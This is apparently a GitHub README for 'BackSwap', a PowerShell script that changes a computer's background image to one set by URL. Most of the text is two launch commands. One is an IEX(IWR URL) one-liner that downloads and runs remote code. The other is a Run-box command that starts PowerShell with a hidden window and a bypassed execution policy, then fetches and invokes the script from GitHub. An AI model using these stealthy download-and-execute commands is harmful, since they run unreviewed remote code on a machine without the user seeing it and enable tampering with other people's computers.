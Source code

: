 BackSwap

How to add ur own image

Go to BS.ps1 and change the "UR OWN IMAGE URL"

![image](https://github.com/VBV11/BackSwap/assets/104235290/ed41590e-4542-44e4-a2b9-cb9e2bd77571)




One line command in powershell

(Change the URL to ur own URL of the code) powershell -command IEX(IWR URL)

EXAMPLE

powershell -command IEX(IWR https://raw.githubusercontent.com/VBV11/BackSwap/main/BS.ps1)

![image](https://github.com/VBV11/BackSwap/assets/104235290/f632c341-f864-4334-8fa3-96970affdc9e)


Run box command

(Change the URL to ur own URL of the code) powershell -w h -NoP -NonI -Exec Bypass $pl = iwr URL?dl=1; invoke-expression $pl

EXAMPLE

powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https://raw.githubusercontent.com/VBV11/BackSwap/main/BS.ps1?dl=1; invoke-expression $pl

![image](https://github.com/VBV11/BackSwap/assets/104235290/e79c7083-6a1a-432f-aa79-9c666d991143)


